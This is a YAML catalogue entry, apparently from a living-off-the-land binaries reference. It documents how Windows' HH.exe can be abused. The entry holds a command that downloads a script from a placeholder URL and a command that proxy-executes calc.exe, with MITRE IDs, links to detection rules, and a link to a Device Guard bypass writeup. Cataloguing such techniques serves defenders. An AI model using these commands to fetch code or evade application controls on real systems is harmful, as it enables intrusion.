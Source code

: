 ```yaml
---
Name: Hh.exe
Description: Binary used for processing chm files in Windows
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: HH.exe http://some.url/script.ps1
    Description: Open the target PowerShell script with HTML Help.
    Usecase: Download files from url
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: HH.exe c:\windows\system32\calc.exe
    Description: Executes calc.exe with HTML Help.
    Usecase: Execute process with HH.exe
    Category: Execute
    Privileges: User
    MitreID: T1218.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\hh.exe
  - Path: C:\Windows\SysWOW64\hh.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hh_chm_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hh_html_help_susp_child_process.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/ef7548f04c4341e0d1a172810330d59453f46a21/rules/windows/execution_via_compiled_html_file.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/execution_html_help_executable_program_connecting_to_the_internet.toml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_html_help_spawn_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_html_help_url_in_command_line.yml
Resources:
  - Link: https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

